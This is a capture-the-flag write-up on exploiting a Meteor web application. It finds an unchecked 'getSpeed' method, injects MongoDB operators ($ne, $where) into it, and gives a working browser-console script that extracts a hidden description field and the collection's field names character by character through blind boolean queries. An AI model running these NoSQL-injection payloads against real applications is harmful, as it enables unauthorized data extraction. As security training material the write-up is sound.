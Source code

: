 # Writeup

### 1. Overview

By looking at the source we can determine that the site is using a framework called **Meteor**.

### 2. Looking for methods

If we click around and look at the network traffic, we can spot some methods like `getSpeed` and `getSize` being called through SockJS.

We can look at the main bundle JavaScript file and search for `Meteor.call`. The bundle is obfuscated, but this will give us enough information to call the methods.

For example there is this part of the bundle:

```js
Meteor.call('getPurpose', 'learn_more', ((e, l) => {
    e || t(l)
})),
Meteor.call('getAsteroidNames', ((e, t) => {
    e || s(t)
}))
```

After a bit of research about how Meteor methods work, we can try calling them by hand in the browser console:

```js
Meteor.call("getPurpose", "learn_more", console.log)
// outputs "asteroid collection"
```

### 3. Looking for a vulnerable method

We can look for two main classes of vulnerabilities:
1. General injections in string parameters (command injection, etc)
2. NoSQL injection, since **Meteor** uses **MongoDB**

The second type of injection would be possible if we could pass a special object - for example `{$ne: 1}` - as a parameter to one of these methods.

Most methods seem to have parameter type checks in place. For example, there is a method called `getSize`:

```js
Meteor.call("getSize", "Pallas", console.log)
// output 544
```

If we try to call it with a parameter of a different type, like `0` or `{}`, it errors out with a `Match failed` message.

This is what we would expect if the backend was using the `meteor/check` package to ensure the correct parameter type.

### 4. There is a vulnerable method

There is one method which is called in an interesting way:

```js
Meteor.call('getSpeed', {name: i}, !0, ((e, l) => { /*...*/ }))
```

It expects an object (and a boolean, that `!0` which evaluates to `true`), so maybe there's more we can do.

Trying:

```js
Meteor.call("getSpeed", {name: {$ne: "x"}}, true, console.log)
```

...seems to work and outputs some value!

### 5. Boolean?

There are different special variables we could try here, like `$regex` and `$where`.

Let's think about our goal. On each page there's a `Description: [TODO]` section, and one of the asteroids is `[[REDACTED]]`.

A valid guess is that we should **try getting their descriptions**, specifically the description of `[[REDACTED]]`.

This could be accomplished using `$where`, which can reach other fields existing on the collection we are querying against.

Let's try:

```js
Meteor.call("getSpeed", {$where: "true"}, true, console.log)
// 17.9
Meteor.call("getSpeed", {$where: "false"}, true, console.log)
// undefined
```

It seems to work! This means we can try extracting the description field using a boolean check.

### 6. Extracting data

The easiest way to proceed in my opinion is to **write a script in JS to be executed in the browser console on the challenge website**. It allows us to not deal with connecting to Meteor.

However doing it as a standalone script is also possible, for example using a npm module called `ddp`.

Extracting the flag:

```js

const charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

const tryBoolean = (condition) => {
    return new Promise((resolve, reject) => {
        Meteor.call("getSpeed", {$where: condition}, true, async (err, result) => {
            return resolve(await result);
        });
    });
};

const run = async () => {
    let data = "";

    while(true) {
        let next = false;

        for (const char of charset) {
            const result = await tryBoolean(`this.name === '[[REDACTED]]' && this.description.startsWith('${data + char}')`);

            if (result !== undefined) {
                data += char;
                next = true;

                console.log(data);
                break;
            }
        }

        if (!next)
            break;
    }
}

run();
```

It is possible to extract the field names first, instead of guessing `name` and `description`, using this payload:

```js
const result = await tryBoolean(`Object.getOwnPropertyNames(this).join(",").startsWith('${data + char}')`);
// _id,name,size,speed,description,createdAt
```
